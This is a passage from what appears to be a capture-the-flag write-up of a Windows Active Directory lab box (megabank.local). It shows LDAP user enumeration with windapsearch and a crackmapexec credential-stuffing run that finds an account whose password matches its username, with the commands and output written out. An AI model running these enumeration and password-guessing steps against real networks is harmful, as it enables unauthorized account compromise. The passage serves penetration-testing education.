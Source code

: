 ```bash
|_    Message signing enabled and required
|_clock-skew: -3s
| smb2-time: 
|   date: 2024-07-30T05:56:12
|_  start_date: N/A
```


## User Enumeration

### Ldap 389

`windapsearch` is a Python script to help enumerate users, groups and computers from a Windows domain through LDAP queries. By default, Windows Domain Controllers support basic LDAP operations through port 389/tcp. With any valid domain account (regardless of privileges), it is possible to perform LDAP queries against a domain controller for any AD related information.

I found multiple users using winappsearch.

```bash
$ ./windapsearch.py -d megabank.local -u Guest\\ldapbind -p '' -U --full
```

- **-d** for domain
- **-u** for username
- **-p** for password
- **-U** to enumerate Users
- **--full** to Dump all attributes from LDAP

```bash
sAMAccountName: Guest
sAMAccountName: AAD_987d7f2f57d2 : Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
sAMAccountName: mhope
sAMAccountName: SABatchJobs
sAMAccountName: svc-ata
sAMAccountName: svc-bexec
sAMAccountName: svc-netapp
sAMAccountName: dgalanos
sAMAccountName: roleary
sAMAccountName: smorgan
```

### Credentials Stuffing

I stored user names in a file called user1.txt and perform credential stuffing attack using crackmapexec and found the user **SABatchJobs** password is also **SABatchJobs** on smb.

```bash
$ crackmapexec smb megabank.local  -u user1.txt -p user1.txt
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

### SMB Shares
